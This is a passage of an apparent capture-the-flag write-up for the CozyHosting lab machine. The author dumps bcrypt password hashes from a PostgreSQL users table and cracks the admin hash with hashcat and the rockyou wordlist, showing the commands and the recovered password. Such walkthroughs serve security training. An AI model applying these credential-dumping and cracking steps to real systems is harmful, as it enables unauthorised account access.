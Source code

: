 The `hosts` table isn’t interesting, but the `users` table has hashes in it:

```

cozyhosting=# select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)

```

### Crack Hash

I’ll make a `hashes` file with those two hashes:

```

$ cat hashes 
kanderson:$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
admin:$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm

```

`hashcat` isn’t able to automatically detect the hash type:

```

$ hashcat hashes --user /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
hashcat (v6.2.6) starting
...[snip]...
The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

Please specify the hash-mode with -m [hash-mode].
...[snip]...

```

I’m including `--user` because my hashes have `[username]:` at the front of each line.

3200 is the most generic type, so I’ll start with that:

```

$ hashcat hashes --user -m 3200 /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
hashcat (v6.2.6) starting
...[snip]...
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
...[snip]...

```
